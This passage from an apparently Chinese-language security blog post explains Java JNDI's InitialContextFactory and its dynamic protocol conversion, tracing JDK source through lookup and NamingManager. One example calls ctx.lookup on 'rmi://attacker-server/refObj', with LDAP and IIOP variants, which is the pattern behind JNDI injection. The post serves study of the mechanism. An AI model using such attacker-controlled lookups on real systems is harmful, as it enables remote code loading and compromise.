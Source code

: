 `Context.INITIAL_CONTEXT_FACTORY`是JNDI服务的具体名字，比如`com.sun.jndi.dns.DnsContextFactory`是DNS服务对应的类名。具体服务对应的类名请自行在如图目录中寻找。

![image](https://y4er.com/img/uploads/20200305153109.png)

在com.sun.jndi.dns.DnsContextFactory中实现了InitialContextFactory，也就是说你可以通过实现javax.naming.spi.InitialContextFactory接口来创建自己的JNDI服务。javax.naming.spi.InitialContextFactory的结构如下。
```java
public interface InitialContextFactory {
    public Context getInitialContext(Hashtable<?,?> environment)
        throws NamingException;
}
```
## JNDI的动态协议转换
JNDI还有一个很重要的特点就是通过url的形式进行协议之间的转换，它可以在RMI、LDAP、CORBA等协议之间自动转换。例如
```java
Context ctx = new InitialContext();
ctx.lookup("rmi://attacker-server/refObj");
//ctx.lookup("ldap://attacker-server/cn=bar,dc=test,dc=org");
//ctx.lookup("iiop://attacker-server/bar");
```
即使你使用了RMI的工厂类初始化的Context，当lookup时也会根据传入的url来转换协议。我们跟进lookup看下
```java
public Object lookup(String name) throws NamingException {
    return getURLOrDefaultInitCtx(name).lookup(name);
}
```
跟进getURLOrDefaultInitCtx
```java
protected Context getURLOrDefaultInitCtx(String name)
    throws NamingException {
    if (NamingManager.hasInitialContextFactoryBuilder()) {
        return getDefaultInitCtx();
    }
    String scheme = getURLScheme(name);
    if (scheme != null) {
        Context ctx = NamingManager.getURLContext(scheme, myProps);
        if (ctx != null) {
            return ctx;
        }
    }
    return getDefaultInitCtx();
}
```
首先进行NamingManager.hasInitialContextFactoryBuilder()判断是否构建了初始化上下文工厂，跟进后发现返回空
![image](https://y4er.com/img/uploads/20200305152764.png)
然后进入getURLScheme获取协议
![image](https://y4er.com/img/uploads/20200305154208.png)
截取协议字符串，然后进入NamingManager.getURLContext(scheme, myProps)来初始化Context，最终跟进到jdk1.8.0_202/src.zip!/javax/naming/spi/NamingManager.java:592
![image](https://y4er.com/img/uploads/20200305153156.png)
在这里用协议名拼接了工厂类名，进而初始化了一个RMI的Context。
